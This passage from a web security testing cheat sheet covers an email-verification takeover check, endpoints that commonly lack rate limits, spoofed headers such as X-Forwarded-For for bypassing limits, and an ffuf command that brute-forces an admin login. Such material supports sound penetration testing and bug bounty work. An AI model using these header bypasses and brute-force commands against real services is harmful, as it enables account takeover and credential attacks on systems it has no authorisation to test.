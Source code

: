 ```sh
1. Create an account with victim@gmail.com but do not verify it.
2. Update the email to hacker@gmail.com.
3. Click on the verification link.
4. If victim@gmail.com is now verified, the system is vulnerable.
```

---

# ⏳ Rate Limit Vulnerabilities Cheat Sheet

## **Introduction**

Rate limiting is an essential security control that prevents brute-force attacks, abuse, and excessive requests. The lack of proper rate limits can lead to security vulnerabilities and exploitation. Below is a list of common rate limit vulnerabilities and attack techniques.

---

## **1️⃣ Common Rate Limit Vulnerabilities**

```sh
1. No rate limit on the login page → allows brute-force attacks.
2. No rate limit on internal password change.
3. No rate limit on sending reset password link → attacker can spam requests.
4. No rate limit on OTP/2FA codes → can lead to account takeover.
5. No rate limit on the contact us page → allows spam attacks.
6. No rate limit on comment sections → can lead to spam or abuse.
7. No rate limit on reporting comments → allows mass reporting abuse.
8. No rate limit on SSH (Port 22) → enables brute-force attacks on SSH.
```

---

## **2️⃣ Bypassing Rate Limits with HTTP Headers**

Attackers may try to bypass rate limits by modifying request headers:

```sh
X-Forwarded-For: 127.0.0.1
X-Forwarded-Host: 127.0.0.1
X-Origination-IP: 127.0.0.1 or 0.0.0.0
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

---

## **3️⃣ Example: Brute-Forcing Login with FFUF**

```sh
ffuf -u https://example.com -w wordlist.txt --data "username=admin&password=FUZZ" \
  -H "X-Forwarded-For: 127.0.0.1" -H "X-Forwarded-For: 127.0.0.1"
```

---